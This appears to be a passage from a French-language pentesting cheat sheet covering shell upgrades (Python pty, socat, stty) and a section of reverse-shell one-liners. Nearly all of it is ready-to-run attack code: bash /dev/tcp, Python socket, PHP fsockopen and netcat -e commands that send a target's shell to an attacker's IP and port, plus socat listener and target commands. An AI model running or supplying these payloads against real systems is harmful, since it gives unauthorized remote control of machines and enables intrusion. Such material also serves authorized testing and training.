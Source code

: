 # 5) Amelioration de shells

## Python
1. Importer le module pty pour améliorer le shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## Socat 
1. Sur l'attaquant 
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
2. Sur la machine cible
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Stty
1. Sur la cible
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```
2. Sur l'attaquant
```
$ stty raw -echo
$ fg
```
3. Sur la cible
```
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# 6) Reverse Shells (cible vers nous)
## BASH
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Netcat 
1. Ouvrir un port sur la machine attaquante
```
nc -lvp 4444
```
3. Connecter un shell sh vers le port de la machine attaquante
```
nc -e /bin/sh [IP_ATTAQUANT] [PORT]
```